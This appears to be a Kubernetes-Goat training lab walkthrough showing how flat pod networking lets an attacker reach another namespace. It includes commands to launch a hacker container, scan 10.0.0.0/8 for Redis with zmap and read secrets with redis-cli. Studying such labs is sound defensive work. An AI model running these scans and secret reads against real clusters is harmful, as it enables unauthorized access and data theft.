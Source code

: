 # Kubernetes Namespaces bypass

## Scenario Information

By default, Kubernetes uses a flat networking schema, which means any pod/service within the cluster can talk to other. The namespaces within the cluster don't have any network security restrictions by default. Anyone in the namespace can talk to other namespaces. We heard that Kubernetes-Goat loves cache. Let's see if we gain access to other namespaces

* To get started with the scenario, let's run our awesome `hacker-container` in the default namespace

```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

![Scenario 11 Welcome](images/sc-11-1.png)

## Scenario Solution

* Get the cluster IP range information

```bash
ip route
ifconfig
printenv
```

![Scenario 11 recon](images/sc-11-2.png)

* Based on the analysis/understanding about the system. We can run the internal scan for the entire cluster range using `zamp` on port 6379 (the default port of Redis)

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

Note: to run `zmap` on 10.0.0.0/8 you may need adjust the blacklist (/etc/zmap/blacklist.conf)

![Scenario 11 zmap](images/sc-11-3.png)
![Scenario 11 output ips](images/sc-11-4.png)

> There is also another way to access the services/pods in the Kubernetes. For example using the [DNS](https://kubernetes.io/docs/concepts/services-networking/service/#dns) `cache-store-service.secure-middleware` (servicename.namespace).

* Let's access the `redis` using the `reds-cli` client

```bash
redis-cli -h 10.12.0.2
KEYS *
GET SECRETSTUFF
```

![Scenario 11 redis access](images/sc-11-5.png)

> There are many other services and resources exposed within the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got a gold mine here.

## Miscellaneous

TBD
